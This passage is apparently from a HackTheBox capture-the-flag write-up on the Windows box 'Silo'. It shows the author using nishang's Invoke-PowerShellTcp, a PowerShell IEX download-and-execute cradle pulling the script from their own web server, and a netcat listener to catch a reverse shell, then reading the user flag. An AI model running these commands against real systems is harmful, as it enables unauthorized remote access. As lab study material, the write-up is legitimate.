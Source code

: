 ![s-3](https://user-images.githubusercontent.com/87711310/217787861-08fe8998-e118-4401-9175-d9e25ba31c12.png)

I tried executing couple of basic commands to see if it was working properly. 

![s-4](https://user-images.githubusercontent.com/87711310/217788420-a710be3e-f77a-4955-8c79-6a0f687f6491.png)

I also did `whoami /all` and I saw that I had `SeImpersonatePrivilege` so the `rotten potato` would work on this.

But I decided not to use rotten potato and try and get a reverse shell using `nishang`.

```
┌──(darshan㉿kali)-[~/…/HackTheBox/Windows-boxes/Silo/shells]
└─$ cp /opt/Windows/nishang/Shells/Invoke-PowerShellTcp.ps1 .

┌──(darshan㉿kali)-[~/…/HackTheBox/Windows-boxes/Silo/shells]
└─$ mv Invoke-PowerShellTcp.ps1 rev.ps1
```

Adding the following line at the end of the rev.ps1 file.

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.x.x -Port 9999
```

Hosting the file using the `python http.server` command 
```
┌──(darshan㉿kali)-[/opt]
└─$ python3 -m http.server 8081
```

Using the powershell command to get the file on the server

```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.x.x:8081/rev.ps1')"
```

Before hitting enter, I turned on my `netcat` listener, and once I hit enter, I get back a reverse shell on my machine.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.82] 49202
Windows PowerShell running as user SILO$ on SILO
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool
PS C:\windows\system32\inetsrv> 
```

And I was able to grab the user flag.

```
PS C:\Users\Phineas\Desktop> type user.txt
[REDACTED]
```
